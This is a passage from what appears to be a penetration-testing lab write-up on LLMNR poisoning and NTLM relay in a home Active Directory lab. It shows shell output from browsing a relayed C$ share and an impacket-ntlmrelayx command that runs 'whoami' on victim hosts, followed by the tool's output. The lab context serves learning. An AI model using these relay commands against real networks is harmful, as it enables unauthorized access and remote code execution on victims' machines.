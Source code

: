 ```
# info
Version Major: 10
Version Minor: 0
Server Name: SPIDERMAN
Server Comment: 
Server UserPath: c:\
Simultaneous Users: 20
# shares
ADMIN$
C$
IPC$
# use c$
# ls
drw-rw-rw-          0  Sat Jul 26 01:35:07 2025 $Recycle.Bin
drw-rw-rw-          0  Thu Jul 24 03:14:40 2025 Documents and Settings
-rw-rw-rw-       8192  Thu Jul 31 10:41:49 2025 DumpStack.log.tmp
-rw-rw-rw- 1476395008  Thu Jul 31 10:41:49 2025 pagefile.sys
drw-rw-rw-          0  Thu Jul 24 04:12:00 2025 PerfLogs
drw-rw-rw-          0  Tue Jul 29 15:01:54 2025 Program Files
drw-rw-rw-          0  Thu Jul 24 04:12:00 2025 Program Files (x86)
drw-rw-rw-          0  Sat Jul 26 01:33:23 2025 ProgramData
drw-rw-rw-          0  Thu Jul 31 10:42:06 2025 Recovery
-rw-rw-rw-  268435456  Thu Jul 31 10:41:49 2025 swapfile.sys
drw-rw-rw-          0  Wed Jul 23 18:14:51 2025 System Volume Information
drw-rw-rw-          0  Sat Jul 26 01:34:20 2025 Users
drw-rw-rw-          0  Fri Jul 25 23:51:18 2025 Windows
#
```

This works only when we connect to our attack machine, not when we try to
access SMB shares over the Windows network. **Why??**



### Executing a command via ntlmrelayx

We can directly execute a command on the victim machine without invoking an
interactive shell by using the `-c <command>` option. Again, we need to
navigate to our attack machine from `THEPUNISHER` to generate the necessary
traffic.

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay enabled

[*] Servers started, waiting for connections
```